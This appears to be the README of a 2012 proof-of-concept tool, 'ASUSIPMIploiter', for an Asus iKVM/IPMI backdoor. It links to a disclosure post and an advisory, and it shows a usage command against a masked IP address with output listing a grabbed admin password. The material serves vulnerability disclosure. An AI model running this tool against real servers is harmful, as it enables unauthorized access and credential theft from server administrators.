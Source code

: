PROFF-OF-CONCEPT FOR:<br/>
http://pedromadias.wordpress.com/2012/06/25/all-your-asus-servers-ikvmipmi-may-belong-to-other/<br/>
http://packetstormsecurity.org/files/114171/Asus-iKVM-IPMI-Backdoor-Cleartext-Passwords.html<br/>
<br/>
USAGE:<br/>
bookie:dist pedrodias$ java -jar ASUSIPMIploiter.jar XXX.XXX.XXX.XXX<br/>
ASUSIPMIploiter v0.1<br/>
Pedro Dias - petermdias@gmail.com<br/>
Passwords:<br/>
----<br/>
admin:XXXXXXX<br/>
----<br/>
Passwords grabbed.<br/>

